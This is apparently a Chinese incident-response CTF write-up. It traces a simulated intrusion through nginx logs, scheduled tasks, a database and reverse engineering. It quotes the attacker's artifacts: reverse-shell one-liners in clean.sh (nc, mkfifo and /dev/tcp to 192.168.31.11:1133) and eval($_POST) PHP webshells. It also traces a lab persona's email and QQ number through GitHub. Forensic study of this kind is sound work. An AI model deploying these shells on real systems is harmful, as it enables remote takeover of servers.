








# 应急响应 1 - 畸形的爱

无法恢复虚拟机快照是一个很严重的问题，在一定程度上会拖慢做题进程。

**未解出题目**：3 9 11 12 13

## 类取证

### 攻击 IP 地址

第一个 IP 可以从 Nginx 的日志 (`/var/log/nginx/access.log`) 中获得，其特性是使用了 Webshell。



第二个 IP 与反弹 Shell 有关，在快照中正在运行的 Docker 容器中，因无法还原快照难以找到...于是另辟蹊径，用磁盘取证工具进行全盘搜索，还好找到了...具体分析过程见下文。

### Flag 收集

前两个 Flag 在 Windows 10 机器中，从任务计划中可以找到，分别是描述与操作对应的批处理文件中：



```batch title="a.bat 中的 flag2" {3}
@echo off
msg * "王美欣，你知道我有多爱你吗”
echo flag2palu{nizhidaowoyouduoainima}
```

第三个 Flag 在数据库中，门槛低的方法是用 Webserver 提供的前端 (`index.php`) 访问。

::: info 配置文件修改

视实际情况（比如丢弃了快照重新启动），SQL 机器的 IP 地址会有所不同，这里要在文件中做相应的修改。

:::

...当然还是不可避免地看数据库...发现一个 ID 没有按顺序排列，Flag 就在其中：



### Webshell 密码

没想到 IP2 与 Webshell1 两道题是放一起解的，也算是巧合吧：

- 最初查找 `.log`，可以找到 `clean-jpg.log` 这样一个不寻常的日志文件
- 转而查看同目录的 `clean.sh`，并在其中找到了反弹 Shell 行为与 IP 地址
- 顺水推舟在 `uploads` 中找到了 `shell.php`

```sh title="clean.sh" {2-4}
echo 'OK';
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.31.11 1133 >/tmp/f
nc -c sh 192.168.31.11 1133
sh -i >& /dev/tcp/192.168.31.11/1133
...
```

第二个密码比较好找，在 `/var/www/html` 下的 `a.php` 文件中。

```php title="/var/www/html/a.php"
<?php eval($_POST[00232]); ?>
<?php eval($_POST["00232"]); ?>
```

## 溯源

攻击者邮箱这道题本质上是社工题，在复盘时发现了这条路线。

对 `简历.exe` 逆向分析查找字符串，调试文件引用信息暴露了用户名：



在 GitHub 上查找该用户（可能是考虑到程序员在 Git 上最容易暴露邮箱？直接在网上搜也能轻易找到），发现用户并没有公开显示邮箱。于是使用 [API 接口](https://docs.github.com/zh/rest/activity/events)获取用户的最近活动，在提交记录中可以找到邮箱：



在该用户的[日记仓库](https://github.com/n0k4u/whatthis/blob/main/%E6%88%91%E7%9A%84%E6%97%A5%E8%AE%B0.txt)中找到了疑似 QQ 号的“密语”：

```plain title="@n0k4u/whatthis/我的日记.txt" {7}
日记：
2025年5月1日，我想和王美欣宝贝51出去玩，但是他说他要加班。。。。。
51还要加班？我要入侵他们公司服务器看看真假。。。。

好吧，你果然没有加班，你永远也别想抛开我，永远，我说的是永远！！！！

密语：3834239649
```

尝试在 QQ 上搜索并添加，Flag 出现在验证信息中：



## 其他题目

钓鱼文件的哈希 32 位大写，考虑是 MD5。钓鱼文件在内网通的消息记录中：



比赛期间没有理解隐藏账户的意思，后来在结合 `RidHelper.exe` 的逆向分析（是一个 RID 账户克隆的程序）时，怀疑与这个程序有关？

另外一点值得注意的是，Windows 10 机器上才能找到符合隐藏账户特征的 `system$` 账户，隐藏账户指的是这个？


